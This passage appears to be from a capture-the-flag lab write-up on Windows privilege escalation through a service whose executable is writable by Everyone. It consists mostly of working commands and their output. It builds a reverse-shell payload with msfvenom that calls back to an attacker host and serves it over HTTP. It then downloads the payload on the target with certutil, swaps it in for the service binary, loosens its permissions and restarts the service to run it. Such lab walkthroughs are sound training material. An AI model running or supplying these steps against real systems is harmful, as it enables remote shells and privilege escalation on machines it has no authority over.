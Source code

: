 The Everyone group has modify permissions (M) on the service's executable. This means we can overwrite it with any malicious payload, and the service will execute it with the privileges of the configured user account.

**3. Replace Executable**

```bash
root@ip-10-10-213-107:~# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.213.107 LPORT=4445 -f exe-service -o rev-svc.exe
root@ip-10-10-213-107:~# file rev-svc.exe 
rev-svc.exe: PE32+ executable (GUI) x86-64, for MS Windows
```

Start an HTTP server to transfer the executable to the target machine

```bash
root@ip-10-10-213-107:~# python3 -m http.server 8888
```

On the target machine, fetch the executable and save it

```bash
C:\Users\thm-unpriv>certutil -urlcache -split -f http://10.10.213.107:8888/rev-svc.exe C:\PROGRA~2\SYSTEM~1\rev-svc.exe
```

Overwrite the service executable with our payload. You need to make a copy of the service before overwriting it

```bash
C:\PROGRA~2\SYSTEM~1>move WService.exe WService.exe.bkp
C:\PROGRA~2\SYSTEM~1>move rev-svc.exe WService.exe
C:\PROGRA~2\SYSTEM~1>icacls WService.exe /grant Everyone:F
processed file: WService.exe
Successfully processed 1 files; Failed processing 0 files
```

**4. Trigger Execution**

```bash
C:\PROGRA~2\SYSTEM~1>sc stop windowsscheduler

SERVICE_NAME: windowsscheduler
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x2
        WAIT_HINT          : 0x3e8

C:\PROGRA~2\SYSTEM~1>sc start windowsscheduler

SERVICE_NAME: windowsscheduler
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        PID                : 2888
        FLAGS              :
```
